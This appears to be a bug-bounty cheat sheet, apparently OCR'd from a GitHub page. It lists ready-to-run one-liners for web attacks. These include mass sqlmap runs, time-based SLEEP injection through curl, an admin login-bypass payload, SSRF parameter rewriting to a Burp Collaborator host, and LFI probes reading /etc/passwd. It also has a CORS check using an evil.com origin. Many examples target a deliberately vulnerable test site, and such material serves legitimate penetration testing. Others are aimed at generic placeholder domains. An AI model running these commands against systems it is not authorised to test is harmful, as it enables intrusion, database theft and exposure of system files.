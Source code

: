 **Javascript file Vulnerability**
* cat live_subdomains.txt | katana | grep js >>js.txt
* cat live_subdomains.txt | subjs | grep js >>js.txt
* httpx -l js.txt >>live_js.txt
* cat live_js.txt | mantra and cat live_js.txt | nipejs
* nuclei -l live_js.txt -t ~/nuclei-templates/http/exposures/ -o js_bugs.txt


**SQL Injection Vulnerability**
* subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
* echo http://testphp.vulnweb.com | waybackurls > wayback_urls_for_target.txt ; python3 /home/infosec/SQLiDetector/sqlidetector.py -f wayback_urls_for_target.txt
* findomain -t vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1

**Time based SQL Injection**
* waybackurls http://testphp.vulnweb.com/ | grep -E '\bhttps?://\S+?=\S+' | grep -E '.php|.asp' | sort -u | sed 's/(=[^&]*)/=/g' | tee urls.txt | sort -u -o urls.txt
* cat urls.txt | sed 's/=/=(CASE%20WHEN%20(888=888)%20THEN%20SLEEP(5)%20ELSE%20888%20END)/g' | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && time curl "'{}'"'

**SQLi- Authentication Admin Panel Bypass**
* Go admin login page
* Now enter the payload in the username or password field,
* Payload Used: admin’ or ‘1’=’1'#
* Enter the payload and click the submit button. You Login successfully…
* Payload URL: https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
* Wordlist: https://github.com/p0dalirius/webapp-wordlists/tree/main 

**Test for SSRF**
* findomain -t http://testphp.vulnweb.com/ -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net

**Local File Inclusion(LFI)**
* waymore.py -i vulnweb.com --no-subs -mode U -oU urls.txt
* cat urls.txt | uro | sed 's/=.*/=/' | gf lfi | nuclei -tags lfi
* httpx -l subdomains.txt -path "///////../../../../../../etc/passwd" -status-code -mc 200 -ms 'root:'

**Path Traversal**
* Go to https://www.private.com.
* Capture the request in the burp suite.
* Send this request to intruder.
* Set payload after domain directly For ex: private.com/$test$.
* Replace with path traversal payloads and check the response.



**Cross Origin Resource Sharing(CORS) Misconfiguration**
* site="http://testphp.vulnweb.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url;else echo Nothing on "$url";fi;done
* https://github.com/chenjj/CORScanner - python cors_scan.py -i live_subdomains.txt -t 100
  